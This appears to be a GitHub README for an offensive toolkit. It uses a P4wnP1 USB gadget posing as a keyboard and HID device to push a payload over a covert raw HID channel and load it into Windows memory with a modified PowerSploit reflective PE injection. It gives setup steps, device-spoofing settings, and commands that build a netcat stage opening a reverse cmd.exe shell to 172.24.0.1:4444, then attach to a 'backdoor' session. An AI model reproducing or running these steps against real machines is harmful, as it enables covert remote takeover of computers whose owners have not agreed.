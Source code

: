 # Reflective PE Injection using HID covert channel 

### Description

Use a Covert RAW HID channel to deliver a payload to a windows machine and load it to memory using [powersploit "Invoke-ReflectivePEInjection"](https://powersploit.readthedocs.io/en/latest/CodeExecution/Invoke-ReflectivePEInjection/)

* The Invoke-ReflectivePEInjection.ps1 in this repository has been modified to work on Windows 10.


## Requirements

* Copy the "**Injection.sh**" script to ```/usr/local/P4wnP1/scripts/```
* chmod ```root@kali:/usr/local/P4wnP1/scripts# chmod 755 Injection.sh```
* Copy the "**Invoke-ReflectivePEInjection.ps1**" payload to ```/usr/local/P4wnP1/legacy/```
* Copy the "**StageGenerator.py**" script to ```/usr/local/P4wnP1/legacy/```
* Copy the "**Stage1.js**" to ```/usr/local/P4wnP1/HIDScripts/```
* Generate Stage2 payload (netcat Reflective PE Injection) ```root@kali:/usr/local/P4wnP1/legacy# python StageGenerator.py /usr/share/windows-binaries/nc.exe "172.24.0.1 4444 -e cmd.exe"```


## Configuration

**Create a USB setting template with the following settings:**
 
* Keyboard
* Custom HID device
* Vendor ID: ```0x1d6b```
* Product ID: ```0x1315```
* Manufacturer Name: ```MaMe82```
* Product Name: ```P4wnP1 by MaMe82```
* Serial Number: ```deadbeef1337```

*If you want to use other VID/PID you will need to update the values in Stage1.js and Stage2.ps1*

**Store the template under the name "Injection"**

**Create a trigger action** that starts the bash script "Injection.sh" when USB gadget connected to host, **Store the template under the name "Injection"**

**Create a master template** with the following settings:

* TriggerActions Template: ```Injection```
* USB Template: ```Injection```
* WiFi Template: ```startup```
* Bluetooth Template: ```startup```
* Networks templates: ```bteth_startup, usbeth_startup, wlan0_startup_dhcp_server```

## Execution

* Connect to the P4wnP1 A.L.O.A web interface (using the access point ip "172.24.0.1") and deploy the master template "**Injection**"
* SSH into your P4wnP1 A.L.O.A access point ip "172.24.0.1" and run the following command: ```root@kali:~# screen -d -r backdoor```

## StageGenerator.py

You can use **StageGenerator.py** generate a Reflective PE Injection payload using any executable file and deliver it using the P4wnP1 raw HID covert channel.

Just make sure the **Invoke-ReflectivePEInjection.ps1** file is in the same directory as **StageGenerator.py**

### Usage:

```root@kali:/usr/local/P4wnP1/legacy# python StageGenerator.py "PE_EXECUTABLE_FILE_PATH" "EXECUTABLE_FILE_ARGUMENTS"```

Example With Arguments:

```root@kali:/usr/local/P4wnP1/legacy# python StageGenerator.py /tmp/netcat.exe "172.24.0.1 4444 -e cmd.exe"```

Example Without Arguments:

```root@kali:/usr/local/P4wnP1/legacy# python StageGenerator.py /tmp/netcat.exe ""```


